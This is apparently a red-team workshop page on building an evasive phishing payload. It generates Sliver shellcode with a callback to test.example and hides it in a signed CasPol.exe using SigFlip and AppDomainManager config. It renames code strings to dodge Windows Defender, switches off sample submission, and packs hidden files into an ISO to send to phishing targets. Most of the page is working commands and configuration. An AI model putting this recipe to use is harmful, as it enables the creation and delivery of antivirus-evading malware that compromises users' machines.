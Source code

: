 +++
title = "Better Payload Generation"
weight = 110
+++

### Better implants (frostbyte bypass windows defender)

Instead of generating an executable. We can generate shellcode. We can then use something like [https://github.com/pwn1sher/frostbyte](https://github.com/pwn1sher/frostbyte) to load that shellcode into memory and execute it.

### Get frostbyte

Download the [frostbyte zip](https://github.com/pwn1sher/frostbyte/archive/refs/heads/main.zip) from GitHub.

### Generate shellcode

In a sliver shell we need to run the following to generate some shellcode to be used later. We'll use `test.example` as the callback domain, we will add an entry to the Windows hosts file.

```bash
generate --mtls test.example -f shellcode --save implants/shellcodex64.bin
```

Copy the shell code to the share.

```bash
mkdir -p /share/operator-$(ip a | grep 172 | awk '{print $2}' | cut -d/ -f1 | cut -d. -f4)
cp implants/shellcodex64.bin /share/operator-$(ip a | grep 172 | awk '{print $2}' | cut -d/ -f1 | cut -d. -f4)
```

It is time to switch to windows.

Copy the shellcode to your `Desktop\frostbyte-main` folder on the Windows machine.



### Setup Files for New Payload

```bat
cd Desktop\frostbyte-main
mkdir AuthHelper
mkdir AuthHelper\dist\
copy Update.exe.config AuthHelper\dist\AuthHelper.exe.config
copy test.cs AuthHelper\AuthHelper.cs
cd AuthHelper
```

### Run SigFlip

Now that we have things setup we can run `SigFlip` to encode our shellcode into the `CasPol.exe` and save it as `AuthHelper.exe` in our newly created `AuthHelper` folder.

```bat
..\SigFlip.exe -i "..\CasPol.exe" "..\shellcodex64.bin" ".\dist\AuthHelper.exe" "PYLD4ME"
```

Pay attention to the output. I had to make note of the padding value and add it to two lines in the `.cs` file

### Update `dist\AuthHelper.exe.config`

- We need to replace `test` with our executable name our executable name without the extension (`AuthHelper`). 
- Next we need to update the value of `appDomainManagerType` to be something else `NewAuthHelper`.
- Finally lets make `privatePath` a relative path `.`

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <probing privatePath="."/>
      </assemblyBinding> 
	  <appDomainManagerAssembly value="AuthHelper, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  
	  <appDomainManagerType value="NewAuthHelper" />  
   </runtime>
</configuration>
```

### Update AuthHelper\AuthHelper.cs

Now we need to update the `AuthHelper.cs` file.

- remove top three lines prepended with `#`
- replace `Z45UDG` with `NewAuthHelper`
- comment out logging on lines `154` and `161`
- replace `S3cretK3y` with `PYLD4ME`
- change `Z:\\zloader\\update.exe` to `AuthHelper.exe`
- replace all instances of `shellcode` with `certData`
- replace all instances of `ClassExample` with `AuthHelper`
- replace all instances of `Executing Beacon!` with `Begin Execution!`
- replace all instances of `Decrypt` with `CheckAuth`
- replace all instances of `ExecShellcode` with `Authorize`
- Update `_peBlob.Length+2` to be `_peBlob.Length+10`


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:dist\AuthHelper.dll AuthHelper.cs
```

### Prepare for Testing

We need to modify `C:\Windows\System32\drivers\etc\hosts` and add an entry for `test.example`.

- Run notepad as administrator
![Run Notepad as Administrator](/static/how-to-phishing/notepad-runas.png)

- Ensure you have `All Files` selected 
![Notepad Show All Files](/static/how-to-phishing/notepad-open-allfiles.png)

- Browse to `C:\Windows\System32\drivers\etc\`
- Add en entry for `test.example` to go to your Linux box running `sliver`.
![Windows Hosts File Entry](/static/how-to-phishing/windows-hosts-entry.png)

We should also set defender to not send off samples.

- Open Windows Defender
![Defender Tray Entry](/static/how-to-phishing/defender-tray.png)

- Select **Virus & threat protection** from the left side navigation.
- Click **Manage settings**
![Defender Settings](/static/how-to-phishing/defender-settings.png)

- Turn off sample submission
![Defender Sample Submission](/static/how-to-phishing/defender-sample-submission.png)

### Testing

Now we should be able to open out `dist` folder and run the `AuthHelper.exe`.
![Better Payload Testing](/static/how-to-phishing/better-payload-testing.png)

We should see a new session popup in Sliver
![Better Payload Testing Sliver](/static/how-to-phishing/better-payload-testing-sliver.png)

Now would be a good time to fine tune our code, remove debugging messages, or add a nice special message that says "Good job! Now your more secure!!". 

### PackMyPayload

Now that we have a nice payload, lets pack it up so we can send it to our phishing targets. We'll use [https://github.com/mgeeky/PackMyPayload](https://github.com/mgeeky/PackMyPayload)


```bash
sudo apt install python3-pip
cd ~/opt
git clone https://github.com/mgeeky/PackMyPayload.git
cd PackMyPayload
python3 -m pip install -r requirements.txt
```

Copy dist folder to your linux VM. I put it in `~/Desktop/op/payloads/AuthHelper/`.

```bash
cd ~/Desktop/op/payloads/AuthHelper
python3 ~/opt/PackMyPayload/PackMyPayload.py --hide AuthHelper.dll,AuthHelper.exe.config dist AuthHelper.iso -v
```

Now we should have a nice `.iso` file we can send users.
![PackMyPayload](/static/how-to-phishing/packmypayload.png)

### Testing... Again

Now we need to test again to make sure everything is working as designed. Copy the `AuthHelper.iso` to the Windows machine. We'd hate for users to receive this message instead of us getting a new session:

![Error](/static/how-to-phishing/iso-mount-error.png)
